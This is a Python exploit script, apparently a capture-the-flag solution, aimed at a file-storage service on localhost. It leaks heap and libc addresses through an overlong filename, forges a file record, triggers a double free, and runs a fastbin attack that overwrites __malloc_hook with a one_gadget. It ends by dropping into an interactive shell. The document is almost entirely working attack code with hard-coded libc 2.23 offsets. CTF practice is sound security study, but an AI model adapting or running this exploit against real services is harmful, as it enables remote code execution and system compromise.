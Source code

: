 ```python
    assert isinstance(filename2, str)
    sock.sendline("RENAME {} {}".format(filename1, filename2))

libc = ELF("./libc6_2.23-0ubuntu10_amd64.so")
sock = Socket("127.0.0.1", 4321)
libc_main_arena = 0x3c4b20
libc_one_gadget = 0x4526a
#libc = ELF("/lib64/libc.so.6")
#sock = Socket("127.0.0.1", 4322)
#libc_main_arena = 0x3c6760

# libc leak
upload_file("AAA.BIN", 10, "A" * 10)
payload1 = "A" * 38 + "." + "A00"
rename_file("AAA.BIN", payload1)
upload_file("BBB.BIN", 0x80, "B" * 0x80)
upload_file("CCC.BIN", 10, "C" * 10)
delete_file("BBB.BIN")
data = download_file(payload1)
addr_heap = u64(data[160:168])
addr_main_arena = u64(data[184:192]) - 88
libc_base = addr_main_arena - libc_main_arena
addr_malloc_hook = libc_base + libc.symbol("__malloc_hook")
addr_one_gadget = libc_base + libc_one_gadget
dump("heap = " + hex(addr_heap))
dump("libc base = " + hex(libc_base))

# fake filedata
fake_fd = b"999.999\x00" + b"\x00" * 32 # filename
fake_fd += p64(0x68) # length
fake_fd += p64(addr_heap + 0x250) # F.BIN->data
fake_fd += p64(0)
fake_fd += p64(addr_heap + 0x190) # E.BIN->data
upload_file("D.BIN", 0x48, bytes2str(fake_fd))

# 0x70 chunks
upload_file("E.BIN", 0x68, "E" * 0x68)
upload_file("F.BIN", 0x68, "F" * 0x68)
delete_file("E.BIN")
delete_file("F.BIN")

# double free
rename_file("D.BIN", "D" * 56 + "DDDDD.DD" + "P")
delete_file("999.999")

# fastbin attack
upload_file("X.BIN", 0x68, p64(addr_malloc_hook - 0x13) + b"X" * 0x60)
upload_file("Y.BIN", 0x68, "Y" * 0x68)
upload_file("Z.BIN", 0x68, "Z" * 0x68)

# get the shell!
upload_file("SH.BIN", 0x68, b"AAA" + p64(addr_one_gadget) + b"A" * 0x5d)
sock.sendline("PUT HELLO.PWN 10")

sock.interactive()
```
